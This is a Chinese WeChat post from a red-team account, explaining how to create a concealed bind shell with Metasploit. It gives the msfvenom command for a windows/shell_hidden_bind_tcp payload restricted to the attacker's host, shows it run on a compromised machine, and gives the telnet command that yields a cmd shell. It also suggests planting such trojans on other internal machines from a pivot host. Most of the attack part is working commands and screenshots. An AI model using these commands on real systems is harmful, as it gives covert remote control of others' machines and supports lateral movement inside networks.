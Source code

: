> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/rRqYWnXA4dWQXHHvpxe_jA)

渗透攻击红队

一个专注于红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg)

  

  

大家好，这里是 **渗透攻击红队** 的第 **50** 篇文章，本公众号会记录一些红队攻击的笔记（由浅到深），不定时更新

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC4T65TNkYZsPg2BJ2VwibZicuBhV9DGqxlsxwG0n2ibhLuBsiamU7S0SqvAp6p33ucxPkuiaDiaKD6ibJGaQ/640?wx_fmt=gif)

正向 SHELL

在内网渗透中，正向 bind shell 会经常用到，可能有些兄弟还不清楚什么是正向 shell：**反向 reverse shell 就是通过我们监听，目标肉鸡运行 exe 我们就会收到一个反弹 shell；而正向就是目标肉鸡运行 exe，我们去连接肉鸡。**

最近很多人说我发广告啥的，我只想说一句：**所有的热爱都是在生活的前提上的，不管为了什么，前提是得保证能生存下去。**

**Metasploit 如何隐藏 Bind Shell**

**演示过程**

首先通过 MSF 生成一个正向 shell：

```
msfvenom -p windows/shell_hidden_bind_tcp LPORT=8889 AHOST=192.168.84.128 -f exe > bind_shell.exe
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJicNrxSjo4Ill4Yb3zR5qjqaF05wSo8GpKJ1PEibO071nA6XBfsmGY3tCNLbNhic4ymm4SWXeqUiapOQ/640?wx_fmt=png)

之后再肉鸡上运行 bind_shell.exe ：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJicNrxSjo4Ill4Yb3zR5qjqXpX4qUiaDIC7iaEv89PPKBVwS5Zibk643cFu4SGgwqd6ZuAQ4afb9cvIw/640?wx_fmt=png)

这个时候再 Hacker 机器上使用 Telnet 连接目标机器的时候，就会反弹一个 cmd shel 到黑客机器：  

```
telnet 192.168.84.154 8889
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJicNrxSjo4Ill4Yb3zR5qjqI6hKK6EgpQ7V0YEzZiacBficg9zEdicCePObBCjyTOibibTibK155fXRb0Sw/640?wx_fmt=png)

而此时使用其他机器与肉鸡建立 Telnet 是无法获取到 cmd shell 的：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJicNrxSjo4Ill4Yb3zR5qjq9pAFeaTqickicT4ibX1cQMQzeOXuxuOlVjZYSGmFwGukFmMMmiakfnibuSg/640?wx_fmt=png)

这样的好处在于你在做内网的时候拿下一台跳板机器，利用这台跳板机器当作黑客，生成一个正向木马丢到内网其他机器里，随时就可以通过 telnet 获取目标的 cmd  ，省去了一些麻烦。  

* * *

参考文章：

https://evi1cg.me/archives/Don-t_touch_my_shell.html

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDdjBqfzUWVgkVA7dFfxUAATDhZQicc1ibtgzSVq7sln6r9kEtTTicvZmcw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDY9HXLCT5WoDFzKP1Dw8FZyt3ecOVF0zSDogBTzgN2wicJlRDygN7bfQ/640?wx_fmt=png)

点分享

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDRwPQ2H3KRtgzicHGD2bGf1Dtqr86B5mspl4gARTicQUaVr6N0rY1GgKQ/640?wx_fmt=png)

点点赞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDgRo5uRP3s5pLrlJym85cYvUZRJDlqbTXHYVGXEZqD67ia9jNmwbNgxg/640?wx_fmt=png)

点在看